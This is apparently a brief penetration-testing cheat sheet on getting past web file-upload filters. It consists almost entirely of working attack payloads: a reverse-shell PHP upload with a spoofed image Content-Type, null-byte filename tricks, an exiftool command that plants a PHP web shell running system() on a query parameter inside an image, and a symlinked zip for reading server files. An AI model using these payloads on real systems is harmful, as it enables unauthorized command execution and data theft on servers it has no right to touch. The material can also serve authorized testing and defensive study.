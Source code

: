 
![image](https://user-images.githubusercontent.com/9059079/121619876-4c79e100-ca37-11eb-94b9-730b4089ce66.png)

```
Content-Disposition: form-data; name="myFile"; filename="php-reverse-shell.php"
Content-Type: application/x-php

#Change to Content-Type: image/jpeg 
```
###Null Byte
```
blank.php%00.png
blank.php%2500.png
```
In image - exiftool

```
root@Host-001:~/Bureau# exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' blank.png
root@Host-001:~/Bureau# mv blank.png blank.php.png
```

###In image - exiftool
```
ln -s ../ symindex.txt
zip --symlinks test3.zip symindex.txt

1. upload zip 2. visit symindex.txt
```
https://0xss0rz.gitbook.io/0xss0rz/pentest-htb/web-1/bypass/upload-file#zip-file
